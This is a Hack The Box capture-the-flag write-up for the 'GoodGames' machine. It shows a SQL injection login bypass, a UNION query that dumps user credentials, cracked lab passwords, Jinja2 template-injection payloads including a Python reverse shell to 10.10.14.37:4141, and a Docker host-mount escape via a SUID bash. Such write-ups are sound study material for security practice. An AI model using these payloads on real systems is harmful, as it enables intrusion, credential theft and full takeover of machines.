

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.130 goodGames.htb

**nmap scan:**
```bash
PORT   STATE SERVICE  VERSION
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store
```

* Hostname: `GoodGames.HTB`

A normal looking web app talking about video games


There is a option for signup/login



There is really simple sql injection in email parameter to bypass login and get admin 



After login, there is a extra settings icon in top right corner which redirect to a subdomain `internal-administration.goodgames.htb`

Another login page form subdomain



# Foothold

## SQLi

back to the login sql injection, There's a reflacted field in login



Dump database

* database_name: main
* table: user
* column: id,email,password,name

```
' UNION SELECT ALL 1,2,3,group_concat(id,":",email,":",password,":",name) from main.user#
```




password cracked with john using rockyou.txt
```
1:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec:admin:superadministrator
```

And these creds resue in subdomain Flask Dashboard


## SSTI

In the volt dashboard, found SSTI(Server-Side Template Injection) in `/settings` reflacted in the user's profile name



* From nmap scan, this is a Python server so template framework is possibly jinja2.


Payload form [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-subprocesspopen)
```python
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```



Get reverse shell with [pyaload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)
```python
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.37\",4141));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)}}
```

Get root shell inside docker container.

# Privesc

## Docker escape

Running [deepce.sh](https://github.com/stealthcopter/deepce) script, find host mounts
```bash
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... No
[+] Other mounts .............. Yes
/home/augustus /home/augustus rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
[+] Possible host usernames ... augustus rw,relatime - ext4 
```

`/home/augustus` directory contains user flag and user `augustus` in not in the docker container.

Host is reachable from container and running ssh




ssh to host using reused password `superadministrator` for user "augustus"




## Host mount inside docker

We know that `/home/augustus` mounted in the container and we are root in the container.

That means we can create any file or edit any file inside `/home/augustus` directory as root.

just copy host bash binary in user's directory and give suid permission as root from container.

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
root@3a453ab39d3d:/home/augustus$ chown root:root bash
root@3a453ab39d3d:/home/augustus$ chmod +s bash
root@3a453ab39d3d:/home/augustus$ ssh augustus@172.19.0.1
augustus@GoodGames:~$ ./bash -p
```

